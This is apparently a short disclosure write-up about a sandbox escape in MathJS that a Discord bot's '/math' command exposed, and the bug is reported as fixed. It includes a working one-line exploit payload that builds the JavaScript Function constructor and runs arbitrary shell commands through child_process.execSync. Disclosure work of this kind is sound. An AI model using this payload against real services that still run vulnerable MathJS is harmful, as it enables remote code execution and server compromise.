


## Get constructed
*Fixed on: 28/08/2026*

[Website](https://ocelotbot.xyz) | [Discord](https://discord.gg/7YNHpfF)

This is a simple Discord bot that is made mainly for utility and fun stuff like image editing, meme generation, image search and games.



There is a `/math` command that lets you evaluate expressions. I tried to put some weird things and the bot yielded this weird error message:



Dorking this error message gave me [this issue](https://github.com/josdejong/mathjs/issues/1485), which made me think that the bot is using MathJS to evaluate expressions, and I confirmed it by using MathJS's own functions (like `matrix()`).

Some months ago, this library patched two sandbox escape vulnerabilities recorded as `CVE-2026-41139` and `CVE-2026-40897`. Basically, some MathJS internals would allow you to get the JavaScript Function constructor which will let you create functions with arbitrary code (yeah, RCE). I took and modified a sample PoC into this:

```js
a = reviver('',{'mathjs':'ArrayNode'}).toJSON()['items']; a.map = f(callback)=callback({'map':f2(callback2)=callback2({},'constructor'),'type':sum}); xd = reviver('',{'mathjs':'FunctionAssignmentNode','name':'a','params':a,'expr':reviver('',{'mathjs':'ConstantNode'})}); g = xd.toJSON()['params']['type']; h = g("return process.mainModule.require('child_process').execSync(`<command here>`)"); h(); 1 + 1
```

When I attempted to run a curl against my webserver with this... it worked:

https://github.com/user-attachments/assets/d643df68-0cc8-4407-b7bf-e709ab478d75

> Before somebody screams: The bot is running in a container.

So yeah... pretty scary.

The dev took a little to fix it.